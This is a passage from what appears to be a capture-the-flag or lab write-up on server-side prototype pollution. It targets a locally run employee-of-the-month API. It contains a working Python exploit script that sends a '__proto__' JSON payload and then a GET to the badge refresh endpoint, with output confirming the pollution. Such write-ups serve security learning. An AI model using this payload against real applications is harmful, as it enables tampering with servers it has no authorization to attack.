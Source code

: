 For more information about prototype pollution, please visit:
https://portswigger.net/web-security/prototype-pollution/server-side
https://www.veracode.com/blog/secure-development/yet-another-perspective-prototype-pollution

## So now that we know what prototype pollution is, let's run the application locally, and craft an exploit.

Application is running, To proceed, we'll copy the JSON into our exploit and test for pollution.

```python
client = httpx.Client()
base_url = "http://localhost:3000"
res = client.put(
  base_url + "/employee-of-the-month",
  headers={"cache-control": "no-cache"},
  json={
    "firstname": "Patrick",
    "lastname": "Richardson",
    "description": "Hello, I am Patrick Richardson! I've set up this API to display employees of the month!",
    "achievement": {
      "reason":"Setting up employee of the month API",
      "date":"2023-10-4 11:03:04"
    },
    "__proto__": {
      "pollution": "exists",
      "hello": "from pollution"
    }
  }
)
```

After sending the request to the update endpoint, we will execute a GET against `refreshBadge` endpoint. Let's add a `console.log` in `refreshBadge` function.

```
console.log({}.__proto__, {}.pollution, {}.hello)
```

And now add GET request to our exploit and run it.
``` python
print(res, len(res.text))
res = client.get(
  base_url + "/employee-of-the-month/badge/refresh",
  headers={"cache-control": "no-cache"}
)
print(res, res.text)
```

Let's check for the results.
```
[Object: null prototype] {
  pollution: 'exists',
  hello: 'from pollution'
}
```
